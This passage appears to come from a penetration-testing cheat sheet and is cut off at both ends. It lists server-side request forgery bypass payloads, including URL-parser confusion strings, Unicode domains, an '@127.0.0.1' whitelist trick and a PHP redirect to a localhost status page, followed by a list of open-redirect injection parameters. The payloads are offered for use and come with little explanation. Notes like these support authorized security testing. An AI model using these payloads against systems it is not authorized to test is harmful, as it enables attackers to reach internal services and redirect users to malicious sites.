             http://localhost:8000/status/
            http://NaN
            http://safesite.com#.site.com
            http://safesite.com&site.com
            http://safesite.com?.site.com
            http://safesite.com\.site.com/domain
            http://shmilon.0xNaN.undefined.undefined
            http://site.com/account/edit.aspx
            http://site.com/domain.php
            http://site@com/account/edit.aspx
            http://whitelisted@127.0.0.1
            https://192.10.10.2#.192.10.10.3/
            https://192.10.10.2?.192.10.10.3/
            https://192.10.10.2\.192.10.10.3/
            https://192.10.10.3/
            https://ⓈⒾⓉⒺ.ⓒⓞⓜ = site.com
            <?php
            header('Location: http://127.0.0.1:8080/status');
            ?>
            
            # Tool
            # https://h.43z.one/ipconverter/
            ```
            
        - Open Redirection Testing
            - Common injection parameters
                
                ```markup
                /{payload}
                ?next={payload}
                ?url={payload}
                ?target={payload}
                ?rurl={payload}
                ?dest={payload}
                ?destination={payload}
                ?redir={payload}
                ?redirect_uri={payload}
                ?redirect_url={payload}
                ?redirect={payload}
                /redirect/{payload}
                /cgi-bin/redirect.cgi?{payload}
                /out/{payload}
                /out?{payload}
                ?view={payload}
                /login?to={payload}
                ?image_url={payload}
                ?go={payload}
                ?return={payload}
                ?returnTo={payload}
                ?return_to={payload}
                ?checkout_url={payload}
                ?continue={payload}
                ?return_path={payload}
                